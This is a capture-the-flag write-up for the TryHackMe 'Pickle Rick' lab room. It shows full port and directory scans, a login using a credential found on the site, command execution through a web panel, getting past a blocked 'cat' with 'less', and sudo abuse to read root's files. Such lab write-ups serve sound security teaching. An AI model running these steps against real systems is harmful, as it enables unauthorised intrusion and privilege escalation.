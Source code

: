 # Pickle Rick

---
Date: 2021-12-20  
Author: Michael Baumberger  
[TryHackMe link](https://tryhackme.com/room/picklerick)
---

# Task 1 | Pickle Rick

First we do a nmap scan:

    nmap -sC -sV -p- 10.10.26.43
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 20:18 CET
    Nmap scan report for 10.10.26.43
    Host is up (0.052s latency).
    Not shown: 65533 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 2f:c1:a6:22:78:e6:f4:9e:8c:c4:7e:ff:6a:24:02:a9 (RSA)
    |   256 d2:e1:3a:4e:e4:f0:29:50:f1:7c:a1:15:b6:78:ab:2e (ECDSA)
    |_  256 ad:b2:a1:d9:bf:25:a6:82:67:39:51:34:ca:c3:48:a7 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Rick is sup4r cool
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

First we check out the website running on port 80 and start a gobuster scan:

    gobuster dir --url http://10.10.26.43/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.26.43/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/12/20 20:29:17 Starting gobuster in directory enumeration mode
    ===============================================================
    /assets               (Status: 301) [Size: 311] [--> http://10.10.26.43/assets/]
    
    ===============================================================
    2021/12/20 20:43:09 Finished
    ===============================================================

And we also start a dirbuster scan:

    dirb http://10.10.26.43
    
    -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------
    
    START_TIME: Mon Dec 20 20:48:16 2021
    URL_BASE: http://10.10.26.43/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    
    -----------------
    
    GENERATED WORDS: 4612
    
    ---- Scanning URL: http://10.10.26.43/ ----
    ==> DIRECTORY: http://10.10.26.43/assets/
    [+] http://10.10.26.43/index.html (CODE:200|SIZE:1062)
    [+] http://10.10.26.43/robots.txt (CODE:200|SIZE:17)
    [+] http://10.10.26.43/server-status (CODE:403|SIZE:299)
    
    ---- Entering directory: http://10.10.26.43/assets/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
    
    -----------------
    END_TIME: Mon Dec 20 20:52:40 2021
    DOWNLOADED: 4612 - FOUND: 3

And also a nikto scan:

    nikto -h 10.10.26.43
    [-] Nikto v2.1.6
    ---------------------------------------------------------------------------
    [+] Target IP:          10.10.26.43
    [+] Target Hostname:    10.10.26.43
    [+] Target Port:        80
    [+] Start Time:         2021-12-20 20:55:49 (GMT1)
    ---------------------------------------------------------------------------
    [+] Server: Apache/2.4.18 (Ubuntu)
    [+] The anti-clickjacking X-Frame-Options header is not present.
    [+] The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    [+] The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    [+] No CGI Directories found (use '-C all' to force check all possible dirs)
    [+] Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
    [+] Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
    [+] Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
    [+] Cookie PHPSESSID created without the httponly flag
    [+] OSVDB-3233: /icons/README: Apache default file found.
    [+] /login.php: Admin login page/section found.
    [+] 7890 requests: 0 error(s) and 9 item(s) reported on remote host
    [+] End Time:           2021-12-20 21:04:21 (GMT1) (512 seconds)
    ---------------------------------------------------------------------------

During the gobuster and dirbuster scan we can look at the web pages source code und see the note with the *Username 'R1ckRul3s'*.

We see the result */assets* in the gobuster scan so we look at this and see those files:

    bootstrap.min.css	2019-02-10 16:37	119K	 
    bootstrap.min.js	2019-02-10 16:37	37K	 
    fail.gif	        2019-02-10 16:37	49K	 
    jquery.min.js	    2019-02-10 16:37	85K	 
    picklerick.gif	    2019-02-10 16:37	222K	 
    portal.jpg	        2019-02-10 16:37	50K	 
    rickandmorty.jpeg	2019-02-10 16:37	488K	 

We can download them but I dont think that they have anything special on it.
Now  the dirbuster scan is finished and we can look at the robots.txt:

    Wubbalubbadubdub

Why?????? 
Ok I don't thing that helps us, so we check out the *'/login.php' page* from nikto and we see a login form.

We already found the username 'R1ckRul3s' in the 'index.html' code.
Now we can try some passwords and because of the suspicious content of the 'robots.txt' I tried it as password and it worked!!
we got redirected to the *page 'portal.php'*.
On the first look and test it looks like we have code execution or something. 
Lets try 'ls' and we see numerus of files and also the *file 'Sup3rS3cretPickl3Ingred.txt'* which we were searching for.

If we try to 'cat' the file 'Sup3rS3cretPickl3Ingred.txt' we get the message:

    Command disabled to make it hard for future PICKLEEEE RICCCKKKK.

Now we know there is some validation.
But it looks like the file is in the same directory as the webserver is serving out login.php and index.html so we can try to call the file like that:

    http://10.10.26.43/Sup3rS3cretPickl3Ingred.txt

Yes we can **read the file like this and get our first flag**.

We know that we have command execution so lets try to trick the validation. 
As example we can list the whole '/' directory with 'ls -la /'.
We can also see all home directories with 'ls -la /home' and the home folder of rick with 'ls -la /home/rick' and there we find the second ingredient.

Before we only tried to cat the file but we can try another tool and see if it is also blocked:

    less /home/rick/'second ingredients'

It worked and we get **the second flag**.

We can think that the last flag will be in the roots home so '/root' but if we try to read that directory with 'ls -la /root' we dont get back anything.
With the command 'whoami' we see that we are only 'www-data' and this user normaly doesn't have permission to read the root's home folder.
We can *check what permissions we have with 'sudo -l'*:

    Matching Defaults entries for www-data on ip-10-10-26-43.eu-west-1.compute.internal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on ip-10-10-26-43.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

As we see we can execute any command without supplying a password. So we can execute 'sudo ls -la /root' and we get a result this time:

    total 28
    drwx------  4 root root 4096 Feb 10  2019 .
    drwxr-xr-x 23 root root 4096 Dec 20 19:15 ..
    -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    drwx------  2 root root 4096 Feb 10  2019 .ssh
    -rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
    drwxr-xr-x  3 root root 4096 Feb 10  2019 snap

As we can see there is most likely our 3 flag in the file '3rd.txt' so lets read it:

    sudo less /root/3rd.txt

And we get our **3rd flag**!